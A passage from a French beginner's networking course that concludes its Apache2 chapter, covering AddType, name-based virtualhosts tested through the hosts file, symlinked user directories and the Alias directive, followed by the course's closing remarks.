Ajouter des types à Apache2
Pour cela, nous devons dire à Apache2 que les fichiers d'extension .tutu doivent être interprétés comme des fichiers html. Cela se fait grâce à la directive AddType qui se trouve dans le module mime.
On ajoute à la fin du fichier : AddType text/html .tutu
On relance Apache2 et on actualise notre page, en appuyant sur la touche F5 par exemple :
Ma nouvelle page web
Cette fois tout est bon !
Enfin… pas le problème d'encodage des accents, mais ce n'est pas l'objet du cours. :o
Nous avons vu quelques directives intéressantes d'Apache2, nous allons maintenant voir comment faire tourner plusieurs sites différents sur notre serveur.
Utilisation des virtualhosts
Nous allons essayer de présenter deux sites différents sur notre serveur.
Mais comment Apache saura différencier ces deux sites et saura lequel présenter lors d'une requête sur le port 80 ?
En fait, il y a plusieurs façons de faire des virtualhosts, mais nous allons nous baser sur la plus répandue en utilisant des noms de domaine différents pour nos sites.
Nous allons créer les sites toto.com et tutu.com.
Ainsi, quand une requête arrivera, Apache2 pourra savoir si la demande est pour toto.com ou tutu.com.
Configuration du DNS
Dans la vraie vie, vous devez acheter un domaine pour qu'il devienne accessible sur Internet.
Dans notre cas, je ne vais pas vous faire dépenser de l'argent pour un exemple. Nous allons plutôt utiliser une petite astuce qui pourra vous être utile pour beaucoup d'autres choses.
Nous allons utiliser une fonctionnalité qui permet de court-circuiter le fonctionnement normal du DNS grâce au fichier hosts.
Par exemple, si j'écris: 192.168.0.1 www.google.fr
La prochaine fois que j'essaierai d'aller vers www.google.fr, ma machine pensera que le serveur de Google se trouve à l'adresse 192.168.0.1 et enverra la requête à cette adresse.
Nous allons donc modifier notre fichier hosts pour y ajouter des associations pour www.toto.com et www.tutu.com.
Sous Unix, le fichier hosts se trouve dans /etc.
Sous Windows, il se trouve dans C:\Windows\System32\drivers\etc\.
Donc sur notre Debian, nous allons éditer le fichier hosts et ajouter deux lignes en haut du fichier : 192.168.0.1 www.toto.com 192.168.0.1 www.tutu.com
Désormais, dès lors que notre machine voudra accéder à un de ces deux sites, elle accédera à... elle-même. ;)
Nous pouvons tester en entrant www.toto.com dans l'URL de notre navigateur :
Par contre, pour l'instant, le serveur Apache nous présente deux fois la même page.
Nous allons donc nous attaquer aux virtualhosts.
Configuration des virtualhosts.
Comme on l'a vu précédemment, les virtualhosts se configurent dans sites-available/.
Nous allons donc créer deux nouveaux fichiers pour nos deux virtualhosts. Pour cela, nous allons simplement copier le fichier default, et modifier le contenu des fichiers copiés.
Nos virtualhosts devraient maintenant être effectifs :
Vrai site www.toto.comVrai site www.tutu.com
Nous avons donc réussi à présenter deux sites différents sur un seul et même serveur Apache2.
Nous allons maintenant voir deux cas différents de configuration qui permettent de placer les pages de vos sites en dehors de /var/www/.
Un répertoire venu d'ailleurs
Imaginons que vous avez mis en place votre propre serveur web et que vous avez réalisé une page web présentant votre famille sur le nom de domaine que vous avez acheté www.mafamille.com.
Votre petite sœur vient vous voir et aimerait bien mettre en place un site pour elle pour présenter ses hobbies.
Maintenant que vous savez faire des virtualhosts, vous pourriez tout à fait créer le nom de domaine petitesoeur.mafamille.com et faire un virtualhost pour ce site.
Cependant, vous trouvez plus intéressant de faire un site du type www.mafamille.com/masoeur.
Ainsi, vous pourriez faire pareil pour tous les membres de la famille.
Cependant, si vous faites comme cela, vous devrez donner accès au répertoire /var/www/ à votre sœur, ce qui ne vous emballe pas trop si elle y fait des bêtises.
Il existe une solution simple. Vous pouvez tout à fait laisser un accès complet à un répertoire pour votre sœur, et faire un raccourci de ce répertoire dans /var/www/.
Un lien plus que familial
Essayez par exemple de créer une page web dans /home/user/ :
# touch /home/user/index.html
# echo "<html><body><h1>La jolie page de ma sœur !</h1></body></html>" > /home/user/index.html
Vous pouvez alors créer un lien de ce répertoire dans /var/www :
Essayez de mettre en œuvre ce qu'il faut pour pouvoir taper www.mafamille.com/masoeur/ et que cela fonctionne aussi.
Essayez aussi de faire en sorte que l'on tombe sur le site de votre petite sœur en tapant masoeur.mafamille.com/.
Vous savez maintenant mettre en place des virtualhosts et potentiellement laisser un accès à différentes personnes pour gérer leur site. Nous allons maintenant voir comment faire en sorte de rendre accessible une page pour l'ensemble de vos virtualhosts.
Une page pour tous !
Votre site a prospéré et vous hébergez maintenant une bonne dizaine de virtualhosts, pour votre voisin, votre école, votre club de bridge, etc.
Vous avez même créé une page qui donne des statistiques sur l'utilisation générale de votre serveur Apache2 : le nombre de pages lues, le nombre de sites, etc.
Vous aimeriez maintenant que cette page puisse être accessible sur chacun des différents virtualhosts que vous possédez.
Une façon de faire serait de dupliquer la page sur chacun des virtualhosts, mais ce serait lourd et devrait être répété à chaque nouveau site créé. Il y a cependant une solution simple, grâce aux alias.
Par exemple, je peux dire que si j'indique dans mon URL messtats/, qui n'est pas un répertoire dans /var/www/, le navigateur sera redirigé vers le répertoire /home/messtats/.
Les alias peuvent se configurer grâce au module alias.
Nous allons tester cela en modifiant le fichier /etc/apache2/mods-available/alias.conf pour ajouter une ligne Alias /test/ /home/user/:
<IfModule alias_module>
#
# Aliases: Add here as many aliases as you need (with no limit). The format is
# Alias fakename realname
#
# Note that if you include a trailing / on fakename then the server will
# require it to be present in the URL. So "/icons" isn't aliased in this
# example, only "/icons/". If the fakename is slash-terminated, then the
# realname must also be slash terminated, and if the fakename omits the
# trailing slash, the realname must also omit it.
#
# We include the /icons/ alias for FancyIndexed directory listings. If
# you do not use FancyIndexing, you may comment this out.
#
Alias /icons/ "/usr/share/apache2/icons/"
Alias /test/ /home/user/
<Directory "/usr/share/apache2/icons">
Options Indexes MultiViews
AllowOverride None
Order allow,deny
Allow from all
</Directory>
</IfModule>
Nous avons pu ainsi créer une page, ou un répertoire, accessible depuis n'importe lequel de nos virtualhosts.
Nous en avons fini avec la configuration d'Apache2. Il y a encore beaucoup de choses à découvrir sur sa configuration, mais un livre entier pourrait y être consacré !
Vous savez maintenant installer et configurer un serveur DHCP.
Vous pouvez mettre en place un serveur DNS avec Bind.
Vous savez installer et configurer un serveur web avec Apache2.
Si vous le désirez, vous pouvez tenter l'aventure d'acheter votre propre nom de domaine et d'installer et configurer vos propres serveurs DNS et web pour héberger votre site chez vous !
Si jamais cela vous tente, n'hésitez pas à passer sur le forum du site du zéro pour poser des questions. Toute la communauté se fera un plaisir de vous aider à réussir ce challenge. :D
Ça y est, vous possédez, chez vous, un embryon d'infrastructure réseau avec quelques services fort intéressants et indispensables au fonctionnement d'Internet.
Vous savez désormais:
installer et configurer un serveur DHCP,
installer et configurer un serveur DNS avec Bind,
installer et configurer un serveur web avec apache2.
Si vous le désirez, vous pouvez tenter l'aventure d'acheter votre propre nom de domaine et d'installer et configurer vos propres serveurs DNS et web pour héberger votre site chez vous !
Si jamais cela vous tente, n'hésitez pas à passer sur le forum du site du zéro pour poser des questions. Toute la communauté se fera un plaisir de vous aider à réussir ce challenge :D
Ce cours s'achève, et vous pouvez être fiers de vous. Vous avez parcouru beaucoup de chemin et maîtrisez maintenant toutes les bases des réseaux TCP/IP.
Maintenant:
Vous comprenez comment une information circule sur le réseau d'un ordinateur à un autre,
Vous savez mettre en place un réseau et les matériels associés,
Vous savez configurer son adressage pour que chacune des machines soit connectée,
Vous savez mettre en place des services pour permettre le bon fonctionnement des réseaux,
Bref, vous avez une meilleure compréhension du fonctionnement d'Internet et êtes prêts à y participer activement :D
Ne sous-estimez pas vos connaissances, si vous avez parcouru sérieusement ce cours et avez bien assimilé ce que vous avez lu, vous avez réellement un niveau très correct en réseau.
Il vous reste maintenant à continuer à explorer le monde merveilleux d'Internet et des possibilités qu'offrent le réseau. Comme le futur IPv6, la supervision des machines et des services, la supervision des flux de données, le fonctionnement et la mise en place d'un serveur de messagerie, explorer la sécurité réseau et système, etc.
Autant de plaisirs qui vous attendent... sûrement dans un futur tutoriel qui fera de vous un administrateur mondialement respecté :p
Je vous remercie et vous félicite d'être arrivés jusque là. Si ce livre vous a plu, ou pas, n'hésitez pas à me contacter et à me faire un retour, je serai ravi de vous répondre ([email protected])
A très bientôt sur le site du zéro !
PS: Pour l'âge du capitaine, on me dit que c'est une information primordiale pour le fonctionnement des réseaux, et qui doit donc rester secrète !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.


{kind=link}
{kind=link}
{kind=link}